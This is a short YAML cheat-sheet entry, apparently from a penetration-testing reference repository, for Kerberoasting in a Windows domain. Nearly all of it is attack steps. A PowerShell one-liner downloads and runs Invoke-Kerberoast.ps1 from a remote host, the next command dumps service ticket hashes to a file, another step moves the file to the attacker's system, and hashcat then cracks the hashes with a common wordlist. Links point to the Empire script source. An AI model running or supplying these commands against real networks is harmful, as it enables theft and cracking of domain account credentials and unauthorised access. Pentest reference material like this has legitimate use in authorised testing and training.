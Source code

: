 ```yaml
---
functions:
  privilege-escalation:
    - description: Execute a function, script, or application as another user
      code: |
		(1)	IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.119.174/Invoke-Kerberoast.ps1'))
		(2)	Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb.txt
		(3) Transfer the file over to attacker's system for cracking
		(4) Choose the account you want to crack and make into a unique file (for speed purposes)
		(5)	hashcat -m 13100 sqlserver.kb /usr/share/wordlists/rockyou.txt --force

resources: |
  https://www.pentestpartners.com/security-blog/how-to-kerberoast-like-a-boss/
  https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1
---
```


